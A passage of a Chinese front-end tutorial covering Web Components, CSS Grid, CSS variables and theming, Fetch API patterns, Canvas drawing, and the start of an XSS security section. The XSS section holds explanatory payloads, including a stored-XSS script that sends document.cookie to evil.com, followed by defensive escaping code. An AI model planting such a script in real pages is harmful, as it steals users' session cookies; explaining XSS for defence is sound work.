    A["transform: translateX(100px)"] --> B["只触发 Composite ✅"]
    C["left: 100px"] --> D["触发 Layout + Paint + Composite ❌"]

    style B fill:#4CAF50,color:#fff
    style D fill:#f44336,color:#fff
```

**哪些 CSS 属性可以触发 GPU 加速？**
- ✅ `transform`（位移、旋转、缩放）
- ✅ `opacity`
- ✅ `filter`
- ❌ `top`/`left`/`right`/`bottom`（触发 Layout）
- ❌ `width`/`height`（触发 Layout）
- ❌ `background-color`（触发 Paint）

---

> 📝 补充章节完成。本篇现在涵盖 HTML5、CSS3、浏览器API、DOM事件、Web Worker、Intersection Observer、CSS动画等完整的前端基础知识体系。

---

## 29. Web Components 完全指南

Web Components 是一组浏览器原生 API，允许你创建可复用的自定义 HTML 元素，无需依赖任何框架。

### 29.1 三大核心技术

```mermaid
graph TB
    subgraph Web Components
        CE[Custom Elements<br/>自定义元素]
        SD[Shadow DOM<br/>影子DOM]
        HT[HTML Templates<br/>HTML模板]
    end
    
    CE --> A[定义新的HTML标签]
    SD --> B[封装样式和结构]
    HT --> C[可复用的HTML片段]
    
    A --> D[可复用的Web组件]
    B --> D
    C --> D
    
    style CE fill:#4CAF50,color:#fff
    style SD fill:#2196F3,color:#fff
    style HT fill:#FF9800,color:#fff
    style D fill:#9C27B0,color:#fff
```

### 29.2 Custom Elements（自定义元素）

Custom Elements API 允许你定义新的 HTML 标签。

```javascript
// 定义一个自定义元素
class MyCounter extends HTMLElement {
  // 每个自定义元素都需要一个构造函数
  constructor() {
    // 必须首先调用 super()
    super();
    
    // 初始化状态
    this._count = 0;
    
    // 创建内部 DOM 结构
    this.innerHTML = `
      <div class="counter">
        <span class="count">0</span>
        <button class="decrement">-</button>
        <button class="increment">+</button>
      </div>
    `;
    
    // 获取元素引用
    this._countDisplay = this.querySelector('.count');
    this._incrementBtn = this.querySelector('.increment');
    this._decrementBtn = this.querySelector('.decrement');
    
    // 绑定事件
    this._incrementBtn.addEventListener('click', () => this.count++);
    this._decrementBtn.addEventListener('click', () => this.count--);
  }
  
  // 定义属性的 getter/setter
  get count() {
    return this._count;
  }
  
  set count(value) {
    this._count = value;
    this._countDisplay.textContent = value;
    // 触发自定义事件
    this.dispatchEvent(new CustomEvent('count-changed', {
      detail: { count: value },
      bubbles: true
    }));
  }
  
  // 当元素被插入 DOM 时调用
  connectedCallback() {
    console.log('自定义元素已插入 DOM');
    // 从属性读取初始值
    const initial = this.getAttribute('initial-count');
    if (initial) {
      this.count = parseInt(initial, 10);
    }
  }
  
  // 当元素从 DOM 移除时调用
  disconnectedCallback() {
    console.log('自定义元素已从 DOM 移除');
    // 清理事件监听器
    this._incrementBtn.removeEventListener('click', this._handleIncrement);
    this._decrementBtn.removeEventListener('click', this._handleDecrement);
  }
  
  // 定义需要监听的属性
  static get observedAttributes() {
    return ['initial-count', 'disabled'];
  }
  
  // 当属性变化时调用
  attributeChangedCallback(name, oldValue, newValue) {
    if (name === 'initial-count' && oldValue !== newValue) {
      this.count = parseInt(newValue, 10);
    }
    if (name === 'disabled') {
      const disabled = newValue !== null;
      this._incrementBtn.disabled = disabled;
      this._decrementBtn.disabled = disabled;
    }
  }
  
  // 可选：在 new MyCounter() 时调用（较少使用）
  static get observedAttributes() {
    return ['initial-count'];
  }
}

// 注册自定义元素
// 参数：标签名（必须包含连字符），类
customElements.define('my-counter', MyCounter);
```

使用自定义元素：

```html
<!-- 像普通 HTML 标签一样使用 -->
<my-counter></my-counter>

<!-- 带初始值 -->
<my-counter initial-count="10"></my-counter>

<!-- 禁用状态 -->
<my-counter initial-count="5" disabled></my-counter>

<!-- 监听自定义事件 -->
<script>
  document.querySelector('my-counter').addEventListener('count-changed', (e) => {
    console.log('新计数值:', e.detail.count);
  });
</script>
```

### 29.3 Shadow DOM（影子 DOM）

Shadow DOM 提供了真正的 DOM 和样式封装。

```javascript
class MyCard extends HTMLElement {
  constructor() {
    super();
    
    // 创建 Shadow Root
    // mode: 'open' 表示外部可以通过 .shadowRoot 访问
    // mode: 'closed' 表示外部无法访问
    const shadow = this.attachShadow({ mode: 'open' });
    
    // Shadow DOM 内部的样式完全隔离
    shadow.innerHTML = `
      <style>
        /* 这些样式只影响 Shadow DOM 内部 */
        :host {
          display: block;
          border: 1px solid #ddd;
          border-radius: 8px;
          padding: 16px;
          margin: 8px 0;
          font-family: Arial, sans-serif;
        }
        
        /* :host 可以根据外部状态变化 */
        :host(:hover) {
          box-shadow: 0 2px 8px rgba(0,0,0,0.1);
        }
        
        /* :host-context 根据祖先元素匹配 */
        :host-context(.dark-theme) {
          background: #333;
          color: #fff;
          border-color: #555;
        }
        
        .card-header {
          font-size: 18px;
          font-weight: bold;
          margin-bottom: 8px;
          color: var(--card-header-color, #333);
        }
        
        .card-body {
          color: #666;
          line-height: 1.6;
        }
        
        /* ::slotted 选择插槽中的元素 */
        ::slotted(h3) {
          color: #2196F3;
          margin: 0;
        }
        
        ::slotted(p) {
          margin: 4px 0;
        }
      </style>
      
      <div class="card">
        <div class="card-header">
          <slot name="header">默认标题</slot>
        </div>
        <div class="card-body">
          <slot>默认内容</slot>
        </div>
        <div class="card-footer">
          <slot name="footer"></slot>
        </div>
      </div>
    `;
  }
  
  connectedCallback() {
    // this.shadowRoot 可以访问 Shadow DOM
    console.log('Shadow Root:', this.shadowRoot);
  }
}

customElements.define('my-card', MyCard);
```

使用 Shadow DOM 组件：

```html
<my-card>
  <h3 slot="header">卡片标题</h3>
  <p>这是卡片的默认内容，会进入默认插槽</p>
  <p>可以放多个元素</p>
  <div slot="footer">
    <button>确定</button>
    <button>取消</button>
  </div>
</my-card>

<!-- 外部样式无法穿透 Shadow DOM -->
<style>
  /* 无效！Shadow DOM 的封装阻止了这个选择器 */
  my-card .card-header { color: red; }
  
  /* 但 ::part() 可以穿透（需要组件配合） */
  my-card::part(header) { color: blue; }
</style>
```

### 29.4 HTML Templates（HTML 模板）

`<template>` 和 `<slot>` 提供了声明式的模板机制。

```html
<!-- 定义模板：不会被渲染，直到被克隆使用 -->
<template id="user-card-template">
  <style>
    .user-card {
      display: flex;
      align-items: center;
      gap: 12px;
      padding: 12px;
      border: 1px solid #e0e0e0;
      border-radius: 8px;
    }
    .avatar {
      width: 48px;
      height: 48px;
      border-radius: 50%;
      background: #2196F3;
      display: flex;
      align-items: center;
      justify-content: center;
      color: white;
      font-weight: bold;
    }
    .info { flex: 1; }
    .name { font-weight: bold; font-size: 16px; }
    .email { color: #666; font-size: 14px; }
  </style>
  <div class="user-card">
    <div class="avatar"></div>
    <div class="info">
      <div class="name"></div>
      <div class="email"></div>
    </div>
  </div>
</template>

<script>
class UserCard extends HTMLElement {
  constructor() {
    super();
    const shadow = this.attachShadow({ mode: 'open' });
    
    // 获取模板并克隆
    const template = document.getElementById('user-card-template');
    const clone = template.content.cloneNode(true);
    
    shadow.appendChild(clone);
  }
  
  connectedCallback() {
    const name = this.getAttribute('name') || '未知用户';
    const email = this.getAttribute('email') || '';
    const initials = name.charAt(0).toUpperCase();
    
    this.shadowRoot.querySelector('.avatar').textContent = initials;
    this.shadowRoot.querySelector('.name').textContent = name;
    this.shadowRoot.querySelector('.email').textContent = email;
  }
}

customElements.define('user-card', UserCard);
</script>

<!-- 使用 -->
<user-card name="张三" email="zhangsan@example.com"></user-card>
<user-card name="李四" email="lisi@example.com"></user-card>
```

### 29.5 完整实战：可复用的 Toast 组件

```javascript
class ToastMessage extends HTMLElement {
  constructor() {
    super();
    const shadow = this.attachShadow({ mode: 'open' });
    shadow.innerHTML = `
      <style>
        :host {
          position: fixed;
          top: 20px;
          right: 20px;
          z-index: 10000;
          display: flex;
          flex-direction: column;
          gap: 8px;
        }
        
        .toast {
          padding: 12px 20px;
          border-radius: 8px;
          color: white;
          font-family: system-ui, sans-serif;
          font-size: 14px;
          min-width: 250px;
          max-width: 400px;
          box-shadow: 0 4px 12px rgba(0,0,0,0.15);
          transform: translateX(120%);
          transition: transform 0.3s ease;
          display: flex;
          align-items: center;
          gap: 8px;
        }
        
        .toast.show {
          transform: translateX(0);
        }
        
        .toast.info { background: #2196F3; }
        .toast.success { background: #4CAF50; }
        .toast.warning { background: #FF9800; }
        .toast.error { background: #f44336; }
        
        .close-btn {
          margin-left: auto;
          background: none;
          border: none;
          color: white;
          cursor: pointer;
          font-size: 18px;
          opacity: 0.7;
        }
        
        .close-btn:hover {
          opacity: 1;
        }
      </style>
    `;
  }
  
  show(message, type = 'info', duration = 3000) {
    const toast = document.createElement('div');
    toast.className = `toast ${type}`;
    toast.innerHTML = `
      <span>${message}</span>
      <button class="close-btn">&times;</button>
    `;
    
    this.shadowRoot.appendChild(toast);
    
    // 触发进入动画
    requestAnimationFrame(() => {
      toast.classList.add('show');
    });
    
    // 关闭按钮
    toast.querySelector('.close-btn').addEventListener('click', () => {
      this._removeToast(toast);
    });
    
    // 自动关闭
    if (duration > 0) {
      setTimeout(() => this._removeToast(toast), duration);
    }
  }
  
  _removeToast(toast) {
    toast.classList.remove('show');
    toast.addEventListener('transitionend', () => toast.remove());
  }
}

customElements.define('toast-message', ToastMessage);

// 使用
const toast = document.createElement('toast-message');
document.body.appendChild(toast);
toast.show('操作成功！', 'success');
toast.show('请检查输入', 'warning');
```

### 29.6 Web Components 生命周期

| 生命周期回调 | 触发时机 | 典型用途 |
|---|---|---|
| `constructor()` | 元素被创建时 | 初始化状态、创建 Shadow DOM |
| `connectedCallback()` | 元素插入 DOM 时 | 渲染内容、添加事件监听 |
| `disconnectedCallback()` | 元素从 DOM 移除时 | 清理事件监听、释放资源 |
| `attributeChangedCallback()` | 被监听属性变化时 | 响应属性变化、更新 UI |
| `adoptedCallback()` | 元素移动到新文档时 | 处理跨文档场景（少见） |

---

## 30. CSS Grid 布局完全指南

CSS Grid 是二维布局系统，能同时控制行和列，是构建复杂页面布局的利器。

### 30.1 基本概念

```mermaid
graph TB
    subgraph Grid容器
        subgraph 行轨道
            R1[Row 1]
            R2[Row 2]
            R3[Row 3]
        end
        subgraph 列轨道
            C1[Col 1]
            C2[Col 2]
            C3[Col 3]
        end
        I1[Item 1<br/>grid-area: 1/1/2/3]
        I2[Item 2]
        I3[Item 3]
        I4[Item 4<br/>跨越两列]
    end
    
    style R1 fill:#E3F2FD
    style R2 fill:#E8F5E9
    style R3 fill:#FFF3E0
    style I1 fill:#2196F3,color:#fff
    style I2 fill:#4CAF50,color:#fff
    style I3 fill:#FF9800,color:#fff
    style I4 fill:#9C27B0,color:#fff
```

### 30.2 容器属性详解

```css
.grid-container {
  display: grid;
  
  /* ===== 定义列 ===== */
  /* 固定宽度 */
  grid-template-columns: 200px 200px 200px;
  
  /* 使用 fr 单位（弹性比例） */
  grid-template-columns: 1fr 2fr 1fr;  /* 中间列是两边的两倍 */
  
  /* 混合单位 */
  grid-template-columns: 200px 1fr 2fr;
  
  /* repeat() 简写 */
  grid-template-columns: repeat(3, 1fr);       /* 3列等宽 */
  grid-template-columns: repeat(4, 100px);     /* 4列各100px */
  grid-template-columns: repeat(2, 1fr 2fr);   /* 重复模式：1fr 2fr 1fr 2fr */
  
  /* auto-fill：尽可能多地填充列 */
  grid-template-columns: repeat(auto-fill, minmax(200px, 1fr));
  
  /* auto-fit：同 auto-fill，但会折叠空轨道 */
  grid-template-columns: repeat(auto-fit, minmax(200px, 1fr));
  
  /* minmax()：设置最小最大值 */
  grid-template-columns: minmax(200px, 1fr) 1fr;
  
  /* ===== 定义行 ===== */
  grid-template-rows: 100px 1fr 100px;  /* 头部固定、内容弹性、底部固定 */
  grid-template-rows: repeat(3, auto);   /* 行高自适应内容 */
  
  /* ===== 间距 ===== */
  gap: 16px;              /* 行列间距相同 */
  row-gap: 16px;          /* 行间距 */
  column-gap: 20px;       /* 列间距 */
  
  /* ===== 命名区域 ===== */
  grid-template-areas:
    "header  header  header"
    "sidebar content aside"
    "footer  footer  footer";
  
  /* ===== 对齐 ===== */
  justify-items: center;    /* 内容水平对齐（stretch|start|end|center） */
  align-items: center;      /* 内容垂直对齐 */
  place-items: center;      /* 简写：垂直 水平 */
  
  justify-content: center;  /* 整个网格水平对齐 */
  align-content: center;    /* 整个网格垂直对齐 */
  place-content: center;    /* 简写 */
}
```

### 30.3 子项属性

```css
.grid-item {
  /* ===== 放置位置 ===== */
  grid-column-start: 1;      /* 从第1条列线开始 */
  grid-column-end: 3;        /* 到第3条列线结束（跨越2列） */
  grid-column: 1 / 3;        /* 简写 */
  grid-column: 1 / span 2;   /* 从第1列开始，跨2列 */
  
  grid-row-start: 1;
  grid-row-end: 3;
  grid-row: 1 / 3;
  grid-row: 1 / span 2;
  
  /* 使用命名区域 */
  grid-area: header;          /* 放到 header 区域 */
  grid-area: 1 / 1 / 3 / 3;  /* 行起/列起/行终/列终 */
  
  /* ===== 单项对齐 ===== */
  justify-self: end;    /* 覆盖容器的 justify-items */
  align-self: center;   /* 覆盖容器的 align-items */
  place-self: center;
}
```

### 30.4 实战：经典页面布局

```css
/* 响应式圣杯布局 */
.page-layout {
  display: grid;
  min-height: 100vh;
  grid-template-areas:
    "header  header  header"
    "nav     main    aside"
    "footer  footer  footer";
  grid-template-columns: 250px 1fr 200px;
  grid-template-rows: 60px 1fr 50px;
  gap: 0;
}

.page-header  { grid-area: header; }
.page-nav     { grid-area: nav; }
.page-main    { grid-area: main; }
.page-aside   { grid-area: aside; }
.page-footer  { grid-area: footer; }

/* 平板：隐藏侧边栏 */
@media (max-width: 768px) {
  .page-layout {
    grid-template-areas:
      "header"
      "main"
      "footer";
    grid-template-columns: 1fr;
    grid-template-rows: 60px 1fr 50px;
  }
  .page-nav, .page-aside { display: none; }
}
```

```css
/* 卡片网格：自动填充 */
.card-grid {
  display: grid;
  grid-template-columns: repeat(auto-fit, minmax(280px, 1fr));
  gap: 24px;
  padding: 24px;
}

/* 仪表盘布局 */
.dashboard {
  display: grid;
  grid-template-columns: repeat(4, 1fr);
  grid-template-rows: auto;
  gap: 16px;
}

.widget-stat    { grid-column: span 1; }
.widget-chart   { grid-column: span 2; }
.widget-table   { grid-column: span 4; }

/* 重叠布局（Grid 可以让元素重叠） */
.hero {
  display: grid;
  grid-template: 1fr / 1fr;
}

.hero > * {
  grid-area: 1 / 1;  /* 所有子项放在同一个格子 */
}

.hero-image { z-index: 1; }
.hero-text  { z-index: 2; align-self: center; justify-self: center; }
```

### 30.5 Grid vs Flexbox 选择

| 场景 | 推荐方案 | 原因 |
|---|---|---|
| 一维排列（行或列） | Flexbox | 简单灵活 |
| 二维布局（行+列） | Grid | 精确控制行列 |
| 导航栏 | Flexbox | 单行排列 |
| 整体页面布局 | Grid | 区域划分 |
| 卡片网格 | Grid + auto-fit | 自动响应 |
| 表单对齐 | Grid | 标签-输入对齐 |
| 等高列 | Grid | 天然等高 |
| 内容居中 | 两者皆可 | 都很简单 |

---

## 31. CSS 变量与主题系统

CSS Custom Properties（CSS 变量）是实现主题切换的基础。

### 31.1 CSS 变量基础

```css
/* 定义变量（通常在 :root 上） */
:root {
  /* 颜色 */
  --color-primary: #2196F3;
  --color-secondary: #FF9800;
  --color-success: #4CAF50;
  --color-error: #f44336;
  
  /* 间距 */
  --spacing-xs: 4px;
  --spacing-sm: 8px;
  --spacing-md: 16px;
  --spacing-lg: 24px;
  --spacing-xl: 32px;
  
  /* 字体 */
  --font-family: 'Inter', system-ui, sans-serif;
  --font-size-sm: 14px;
  --font-size-base: 16px;
  --font-size-lg: 20px;
  
  /* 圆角 */
  --radius-sm: 4px;
  --radius-md: 8px;
  --radius-lg: 16px;
  
  /* 阴影 */
  --shadow-sm: 0 1px 3px rgba(0,0,0,0.12);
  --shadow-md: 0 4px 6px rgba(0,0,0,0.1);
  --shadow-lg: 0 10px 25px rgba(0,0,0,0.15);
}

/* 使用变量 */
.button {
  background: var(--color-primary);
  padding: var(--spacing-sm) var(--spacing-md);
  border-radius: var(--radius-md);
  font-family: var(--font-family);
  box-shadow: var(--shadow-sm);
}

/* 变量的级联特性：子元素可以覆盖 */
.sidebar {
  --spacing-md: 12px;  /* sidebar 内部使用更小的间距 */
}
```

### 31.2 JavaScript 操作 CSS 变量

```javascript
// 读取变量
const style = getComputedStyle(document.documentElement);
const primary = style.getPropertyValue('--color-primary').trim();
console.log(primary); // '#2196F3'

// 设置变量
document.documentElement.style.setProperty('--color-primary', '#E91E63');

// 删除变量
document.documentElement.style.removeProperty('--color-primary');

// 批量设置
function setThemeVars(vars) {
  Object.entries(vars).forEach(([key, value]) => {
    document.documentElement.style.setProperty(key, value);
  });
}

setThemeVars({
  '--color-primary': '#9C27B0',
  '--color-bg': '#1a1a1a',
  '--color-text': '#ffffff'
});
```

### 31.3 完整主题切换系统

```html
<style>
  /* ===== 亮色主题（默认）===== */
  :root,
  [data-theme="light"] {
    --bg-primary: #ffffff;
    --bg-secondary: #f5f5f5;
    --bg-tertiary: #e0e0e0;
    --text-primary: #212121;
    --text-secondary: #757575;
    --text-tertiary: #9e9e9e;
    --border-color: #e0e0e0;
    --color-accent: #2196F3;
    --color-accent-hover: #1976D2;
    --shadow-color: rgba(0, 0, 0, 0.1);
    --code-bg: #f5f5f5;
    --scrollbar-thumb: #c0c0c0;
  }
  
  /* ===== 暗色主题 ===== */
  [data-theme="dark"] {
    --bg-primary: #1a1a2e;
    --bg-secondary: #16213e;
    --bg-tertiary: #0f3460;
    --text-primary: #e0e0e0;
    --text-secondary: #a0a0a0;
    --text-tertiary: #666666;
    --border-color: #333333;
    --color-accent: #64b5f6;
    --color-accent-hover: #90caf9;
    --shadow-color: rgba(0, 0, 0, 0.3);
    --code-bg: #2d2d2d;
    --scrollbar-thumb: #555555;
  }
  
  /* ===== 应用变量 ===== */
  body {
    background: var(--bg-primary);
    color: var(--text-primary);
    font-family: var(--font-family, system-ui);
    transition: background 0.3s, color 0.3s;
  }
  
  .card {
    background: var(--bg-secondary);
    border: 1px solid var(--border-color);
    box-shadow: 0 2px 8px var(--shadow-color);
  }
  
  a, .accent {
    color: var(--color-accent);
  }
  
  a:hover {
    color: var(--color-accent-hover);
  }
  
  /* 主题切换按钮 */
  .theme-toggle {
    position: fixed;
    bottom: 20px;
    right: 20px;
    width: 48px;
    height: 48px;
    border-radius: 50%;
    border: none;
    background: var(--bg-tertiary);
    color: var(--text-primary);
    font-size: 24px;
    cursor: pointer;
    box-shadow: var(--shadow-md);
    transition: transform 0.3s;
  }
  
  .theme-toggle:hover {
    transform: scale(1.1);
  }
</style>

<button class="theme-toggle" id="themeToggle">🌙</button>

<script>
class ThemeManager {
  constructor() {
    this.currentTheme = this.getSavedTheme() || this.getSystemTheme();
    this.applyTheme(this.currentTheme);
    
    // 监听系统主题变化
    window.matchMedia('(prefers-color-scheme: dark)')
      .addEventListener('change', (e) => {
        if (!this.getSavedTheme()) {
          this.applyTheme(e.matches ? 'dark' : 'light');
        }
      });
  }
  
  getSystemTheme() {
    return window.matchMedia('(prefers-color-scheme: dark)').matches 
      ? 'dark' : 'light';
  }
  
  getSavedTheme() {
    return localStorage.getItem('theme');
  }
  
  applyTheme(theme) {
    this.currentTheme = theme;
    document.documentElement.setAttribute('data-theme', theme);
    localStorage.setItem('theme', theme);
    
    // 更新切换按钮图标
    const btn = document.getElementById('themeToggle');
    if (btn) {
      btn.textContent = theme === 'dark' ? '☀️' : '🌙';
    }
    
    // 更新 meta 标签（移动端状态栏颜色）
    document.querySelector('meta[name="theme-color"]')
      ?.setAttribute('content', theme === 'dark' ? '#1a1a2e' : '#ffffff');
  }
  
  toggle() {
    this.applyTheme(this.currentTheme === 'dark' ? 'light' : 'dark');
  }
}

const themeManager = new ThemeManager();
document.getElementById('themeToggle').addEventListener('click', () => {
  themeManager.toggle();
});
</script>
```

### 31.4 高级主题技巧

```css
/* 暗色主题图片适配 */
[data-theme="dark"] img {
  filter: brightness(0.9);
}

/* 使用 light-dark() 函数（新特性） */
.box {
  color: light-dark(#333, #eee);
  background: light-dark(white, #1a1a2e);
}

/* 根据主题设置不同图片 */
.hero {
  background-image: url('light-bg.jpg');
}
[data-theme="dark"] .hero {
  background-image: url('dark-bg.jpg');
}

/* 无障碍：减少动画 */
@media (prefers-reduced-motion: reduce) {
  * {
    transition-duration: 0.01ms !important;
    animation-duration: 0.01ms !important;
  }
}
```

---

## 32. Fetch API 进阶

### 32.1 AbortController：取消请求

```javascript
// 基本用法
const controller = new AbortController();
const signal = controller.signal;

fetch('/api/data', { signal })
  .then(response => response.json())
  .then(data => console.log(data))
  .catch(err => {
    if (err.name === 'AbortError') {
      console.log('请求被取消');
    } else {
      console.error('请求失败:', err);
    }
  });

// 取消请求
controller.abort();

// 实际场景：搜索框输入防抖
class SearchController {
  constructor() {
    this.controller = null;
  }
  
  async search(query) {
    // 取消上一次请求
    if (this.controller) {
      this.controller.abort();
    }
    
    // 创建新的控制器
    this.controller = new AbortController();
    
    try {
      const response = await fetch(`/api/search?q=${encodeURIComponent(query)}`, {
        signal: this.controller.signal
      });
      return await response.json();
    } catch (err) {
      if (err.name === 'AbortError') {
        return null; // 被新请求取消，忽略
      }
      throw err;
    }
  }
}
```

### 32.2 请求超时

```javascript
// 使用 AbortController 实现超时
function fetchWithTimeout(url, options = {}, timeout = 5000) {
  const controller = new AbortController();
  const timeoutId = setTimeout(() => controller.abort(), timeout);
  
  return fetch(url, {
    ...options,
    signal: controller.signal
  }).finally(() => clearTimeout(timeoutId));
}

// 使用
fetchWithTimeout('/api/data', {}, 3000)
  .then(res => res.json())
  .catch(err => {
    if (err.name === 'AbortError') {
      console.error('请求超时');
    }
  });
```

### 32.3 并发控制

```javascript
// 限制并发请求数
async function fetchWithConcurrency(urls, maxConcurrent = 3) {
  const results = [];
  const executing = new Set();
  
  for (const [index, url] of urls.entries()) {
    const promise = fetch(url)
      .then(res => res.json())
      .then(data => {
        results[index] = data;
        executing.delete(promise);
      });
    
    executing.add(promise);
    
    if (executing.size >= maxConcurrent) {
      await Promise.race(executing);
    }
  }
  
  await Promise.all(executing);
  return results;
}

// 使用
const urls = Array.from({ length: 20 }, (_, i) => `/api/item/${i}`);
const results = await fetchWithConcurrency(urls, 3);
```

### 32.4 请求拦截器模式

```javascript
class HttpClient {
  constructor(baseURL = '') {
    this.baseURL = baseURL;
    this.interceptors = {
      request: [],
      response: []
    };
  }
  
  // 添加请求拦截器
  addRequestInterceptor(fn) {
    this.interceptors.request.push(fn);
  }
  
  // 添加响应拦截器
  addResponseInterceptor(fn) {
    this.interceptors.response.push(fn);
  }
  
  async request(url, options = {}) {
    // 执行请求拦截器
    let config = { url: this.baseURL + url, ...options };
    for (const interceptor of this.interceptors.request) {
      config = await interceptor(config);
    }
    
    // 发送请求
    let response = await fetch(config.url, config);
    
    // 执行响应拦截器
    for (const interceptor of this.interceptors.response) {
      response = await interceptor(response);
    }
    
    return response;
  }
  
  get(url, options) {
    return this.request(url, { ...options, method: 'GET' });
  }
  
  post(url, data, options) {
    return this.request(url, {
      ...options,
      method: 'POST',
      headers: { 'Content-Type': 'application/json', ...options?.headers },
      body: JSON.stringify(data)
    });
  }
}

// 使用
const http = new HttpClient('https://api.example.com');

// 添加认证拦截器
http.addRequestInterceptor((config) => {
  const token = localStorage.getItem('token');
  if (token) {
    config.headers = {
      ...config.headers,
      Authorization: `Bearer ${token}`
    };
  }
  return config;
});

// 添加日志拦截器
http.addRequestInterceptor((config) => {
  console.log(`[Request] ${config.method || 'GET'} ${config.url}`);
  return config;
});

// 添加错误处理拦截器
http.addResponseInterceptor(async (response) => {
  if (response.status === 401) {
    // Token 过期，跳转登录
    window.location.href = '/login';
  }
  if (!response.ok) {
    const error = await response.json();
    throw new Error(error.message || '请求失败');
  }
  return response;
});

// 使用
const data = await http.get('/users');
const result = await http.post('/users', { name: '张三' });
```

---

## 33. Canvas 2D 绘图基础

### 33.1 基本用法

```html
<canvas id="myCanvas" width="800" height="600" style="border: 1px solid #ccc;"></canvas>

<script>
const canvas = document.getElementById('myCanvas');
const ctx = canvas.getContext('2d');

// ===== 基本形状 =====

// 矩形
ctx.fillStyle = '#2196F3';
ctx.fillRect(10, 10, 150, 100);           // 填充矩形

ctx.strokeStyle = '#f44336';
ctx.lineWidth = 3;
ctx.strokeRect(180, 10, 150, 100);        // 描边矩形

ctx.clearRect(50, 50, 80, 40);            // 清除区域

// 圆弧
ctx.beginPath();
ctx.arc(100, 250, 50, 0, Math.PI * 2);    // 完整圆
ctx.fillStyle = '#4CAF50';
ctx.fill();

ctx.beginPath();
ctx.arc(250, 250, 50, 0, Math.PI);        // 半圆
ctx.stroke();

// 路径
ctx.beginPath();
ctx.moveTo(400, 100);                      // 移动画笔
ctx.lineTo(500, 200);                      // 直线
ctx.lineTo(300, 200);                      // 直线
ctx.closePath();                           // 闭合路径
ctx.fillStyle = '#FF9800';
ctx.fill();
ctx.stroke();

// 贝塞尔曲线
ctx.beginPath();
ctx.moveTo(100, 350);
ctx.quadraticCurveTo(250, 300, 400, 350);  // 二次贝塞尔
ctx.stroke();

ctx.beginPath();
ctx.moveTo(100, 400);
ctx.bezierCurveTo(150, 350, 350, 450, 400, 400);  // 三次贝塞尔
ctx.stroke();

// 文字
ctx.font = '24px Arial';
ctx.fillStyle = '#333';
ctx.fillText('Hello Canvas!', 500, 50);
ctx.strokeText('描边文字', 500, 100);

// 渐变
const gradient = ctx.createLinearGradient(500, 150, 700, 150);
gradient.addColorStop(0, '#2196F3');
gradient.addColorStop(1, '#E91E63');
ctx.fillStyle = gradient;
ctx.fillRect(500, 150, 200, 100);

// 径向渐变
const radial = ctx.createRadialGradient(600, 350, 10, 600, 350, 80);
radial.addColorStop(0, '#FF9800');
radial.addColorStop(1, 'transparent');
ctx.fillStyle = radial;
ctx.fillRect(520, 270, 160, 160);
</script>
```

### 33.2 变换操作

```javascript
const canvas = document.getElementById('myCanvas');
const ctx = canvas.getContext('2d');

// 平移
ctx.save();              // 保存当前状态
ctx.translate(200, 200); // 移动原点
ctx.fillRect(0, 0, 100, 50);
ctx.restore();           // 恢复之前的状态

// 旋转
ctx.save();
ctx.translate(400, 200);
ctx.rotate(Math.PI / 4);  // 旋转 45 度
ctx.fillRect(-50, -25, 100, 50);
ctx.restore();

// 缩放
ctx.save();
ctx.translate(600, 200);
ctx.scale(2, 1.5);        // 水平2倍，垂直1.5倍
ctx.fillRect(-25, -15, 50, 30);
ctx.restore();

// 变换矩阵（高级）
ctx.save();
ctx.translate(100, 400);
ctx.transform(1, 0.5, -0.5, 1, 0, 0);  // 倾斜变换
ctx.fillRect(0, 0, 100, 100);
ctx.restore();
```

### 33.3 Canvas 动画

```javascript
function animateCanvas() {
  const canvas = document.getElementById('myCanvas');
  const ctx = canvas.getContext('2d');
  
  let x = 0;
  let y = canvas.height / 2;
  let dx = 2;
  let dy = -2;
  const radius = 20;
  
  function draw() {
    // 清除画布
    ctx.clearRect(0, 0, canvas.width, canvas.height);
    
    // 绘制背景
    ctx.fillStyle = '#1a1a2e';
    ctx.fillRect(0, 0, canvas.width, canvas.height);
    
    // 绘制弹跳球
    ctx.beginPath();
    ctx.arc(x, y, radius, 0, Math.PI * 2);
    ctx.fillStyle = '#2196F3';
    ctx.fill();
    
    // 添加光晕效果
    const glow = ctx.createRadialGradient(x, y, radius * 0.5, x, y, radius * 2);
    glow.addColorStop(0, 'rgba(33, 150, 243, 0.3)');
    glow.addColorStop(1, 'transparent');
    ctx.fillStyle = glow;
    ctx.fillRect(x - radius * 2, y - radius * 2, radius * 4, radius * 4);
    
    // 碰撞检测
    if (x + radius > canvas.width || x - radius < 0) dx = -dx;
    if (y + radius > canvas.height || y - radius < 0) dy = -dy;
    
    x += dx;
    y += dy;
    
    requestAnimationFrame(draw);
  }
  
  draw();
}

animateCanvas();
```

### 33.4 项目中的 Canvas 应用场景

| 场景 | 说明 | 复杂度 |
|---|---|---|
| 验证码生成 | 随机文字+干扰线+噪点 | ⭐⭐ |
| 签名板 | 手写轨迹捕捉 | ⭐⭐ |
| 图片裁剪 | 裆选框+预览 | ⭐⭐⭐ |
| 数据可视化 | 图表/仪表盘 | ⭐⭐⭐ |
| 粒子效果 | 背景动画 | ⭐⭐⭐⭐ |
| 游戏开发 | 2D 游戏引擎 | ⭐⭐⭐⭐⭐ |

---

## 34. Web 安全基础

### 34.1 XSS（跨站脚本攻击）

XSS 攻击的本质：将恶意脚本注入到网页中，在其他用户的浏览器上执行。

```mermaid
sequenceDiagram
    participant A as 攻击者
    participant S as 服务器
    participant V as 受害者
    
    A->>S: 注入恶意脚本<br/>如评论中写 &lt;script&gt;steal(cookie)&lt;/script&gt;
    S->>S: 未过滤，存入数据库
    V->>S: 访问页面
    S->>V: 返回包含恶意脚本的页面
    V->>V: 浏览器执行恶意脚本
    V->>A: Cookie/敏感数据被窃取
```

**反射型 XSS 示例：**

```html
<!-- 搜索页面，未过滤用户输入 -->
<!-- URL: https://example.com/search?q=<script>alert('XSS')</script> -->

<!-- 服务端代码（不安全） -->
<p>搜索结果：<%= request.query.q %></p>

<!-- 渲染为 -->
<p>搜索结果：<script>alert('XSS')</script></p>
```

**存储型 XSS 示例：**

```html
<!-- 评论功能，恶意用户提交 -->
<textarea>
  很好的文章！<script>
    // 窃取 Cookie
    new Image().src = 'https://evil.com/steal?cookie=' + document.cookie;
  </script>
</textarea>

<!-- 所有访问该文章的用户都会执行这段脚本 -->
```

**防御 XSS：**

```javascript
// 1. 输出编码（最基础的防御）
function escapeHtml(str) {
  const div = document.createElement('div');
  div.textContent = str;
  return div.innerHTML;
}

// 使用
const userInput = '<script>alert("XSS")</script>';
document.getElementById('output').innerHTML = escapeHtml(userInput);
// 输出：&lt;script&gt;alert("XSS")&lt;/script&gt;

// 2. 使用 textContent 而不是 innerHTML
element.textContent = userInput;  // 安全！自动编码

// 3. CSP（内容安全策略）- 服务端设置
